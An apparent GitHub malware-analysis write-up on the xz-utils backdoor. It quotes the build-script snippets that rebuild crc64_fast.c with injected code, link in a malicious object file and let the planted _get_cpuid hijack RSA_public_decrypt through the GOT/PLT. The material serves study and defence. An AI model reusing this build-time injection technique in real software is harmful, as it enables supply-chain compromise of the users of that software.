 - [liblzma_la-crc64-fast.o](https://github.com/ymiwm/APT_Analysis/blob/main/Unknown/xz-utils_backdoor/bin/liblzma_la-crc64-fast.o)
- First extracted the injected code in isolation[liblzma_la-crc64-fast_o_gz.bin](https://github.com/ymiwm/APT_Analysis/blob/main/Unknown/xz-utils_backdoor/bin/liblzma_la_crc64_fast_o_gz.bin) by Florian Weimer

```
    if ! test -f liblzma_la-crc64-fast.o; then
        exit 0
    fi
```

- If failed the process that create `liblzma_la-crc64-fast.o`, exit script

```
    cp .libs/liblzma_la-crc64_fast.o .libs/liblzma_la-crc64-fast.o || true
```

- Copy the original file for backup

```
    V='#endif\n#if defined(CRC32_GENERIC) && defined(CRC64_GENERIC) && defined(CRC_X86_CLMUL) && defined(CRC_USE_IFUNC) && defined(PIC) && (defined(BUILDING_CRC64_CLMUL) || defined(BUILDING_CRC32_CLMUL))\nextern int _get_cpuid(int, void*, void*, void*, void*, void*);\nstatic inline bool _is_arch_extension_supported(void) { int success = 1; uint32_t r[4]; success = _get_cpuid(1, &r[0], &r[1], &r[2], &r[3], ((char*) __builtin_frame_address(0))-16); const uint32_t ecx_mask = (1 << 1) | (1 << 9) | (1 << 19); return success && (r[2] & ecx_mask) == ecx_mask; }\n#else\n#define _is_arch_extension_supported is_arch_extension_supported'
```

- Inject this code to `crc64_fast.c`

```
    eval $yosA
    if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc64_fast.c | \
    sed "/include \"crc_x86_clmul.h\"/a \\$V" | \
    sed "1i # 0 \"$top_srcdir/src/liblzma/check/crc64_fast.c\"" 2>/dev/null | \
    $CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r liblzma_la-crc64-fast.o -x c -  $P -o .libs/liblzma_la-crc64_fast.o 2>/dev/null; then
```

- This if statement is running a pipeline of `sed` commands piped into `$CC` with the arguments `liblzma_la-crc64-fast.o` (adding that object as an input to the compiler) and `x c -` (compile a C program from standard input).
- It rebuilds an edited copy of crc64_fast.c (a real xz source file) and merges the extracted malicious .o file into the resulting object, overwriting the underscored real object file that would have been built originally for crc64_fast.c.
- The sed 1i tells the compiler the file name to record in debug info, since the compiler is reading standard input
- [src/liblzma/check/crc64_fast.c](https://github.com/ymiwm/APT_Analysis/blob/main/Unknown/xz-utils_backdoor/script/crc64_fast.c)
- [injected-crc64_fast.c](https://github.com/ymiwm/APT_Analysis/blob/main/Unknown/xz-utils_backdoor/script/crc64_fast-injected.c)
- That is, the crc64_resolve function, which is the ifunc resolver that gets run early in dynamic loading, before the GOT and PLT have been marked read-only, is now calling the newly inserted `_is_arch_extension_supported`, which calls `_get_cpuid`.
- `_get_cpuid` is provided by the backdoor .o, and it does a lot more before returning the cpuid information. In particular it rewrites the GOT and PLT to hijack calls to `RSA_public_decrypt`.
